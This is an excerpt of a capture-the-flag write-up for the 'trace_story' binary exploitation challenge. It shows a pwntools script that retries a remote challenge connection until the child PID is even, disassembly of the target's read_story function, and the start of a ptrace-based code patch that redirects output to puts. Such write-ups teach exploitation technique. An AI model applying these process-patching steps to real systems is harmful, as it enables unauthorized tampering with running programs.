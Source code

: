 ```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./trace_story', checksec=False)

while True:
    if args.REMOTE:
        p = remote('0.cloud.chals.io', 15148)
        online = 1
    else:
        p = process(binary.path)
        online = 0

    p.recvuntil(b'child pid: ')
    pid = int(p.recvline().strip().decode(),10)

    if pid & 1 == 0: break
    if not args.REMOTE: break

    # hack, force new connection to shake things up and perhaps get even on next attemp
    if 's' in locals(): s.close()
    s = remote('0.cloud.chals.io', 15148)
    log.info('PID {x} is not even, starting over...'.format(x = pid))
    p.close()
```

Mostly standard pwntools header with the following additions:

1. `online` is set to provide an easy assembly directive, more on this later.
2. If the PID is even OR if local, then `break` and move on.
3. I found that the remote is either always even or always odd with serial attempts.  Clearly it'd be more chaotic if multiple users hitting the service, however while writing this write up, I noticed it was one or the other.  I could break up the odd streak with an `nc` command in a different terminal window, but opted to automate with the `s = remote...`--same effect.

```python
# use ptrace to patch out right after read to just call puts
'''
  4017fd:   e8 de f9 ff ff          call   4011e0 <read@plt>

  401802:   48 89 85 e8 ef ff ff    mov    QWORD PTR [rbp-0x1018],rax
  401809:   48 83 bd e8 ef ff ff    cmp    QWORD PTR [rbp-0x1018],0x0
  401810:   00
  401811:   75 1e                   jne    401831 <read_story+0xcf>
  401813:   8b 05 9f 28 00 00       mov    eax,DWORD PTR [rip+0x289f]        # 4040b8 <debug>
  401819:   85 c0                   test   eax,eax
  40181b:   74 0a                   je     401827 <read_story+0xc5>
  40181d:   bf 39 20 40 00          mov    edi,0x402039

  401822:   e8 49 f9 ff ff          call   401170 <puts@plt>
'''

# also patch out exit after puts
'''
  401827:   bf 01 00 00 00          mov    edi,0x1
  40182c:   e8 0f fa ff ff          call   401240 <exit@plt>
'''

# code just nops and then moves rsi to rdi for the puts call
patch = asm(
f'''
mov rdi, rsi
''')
```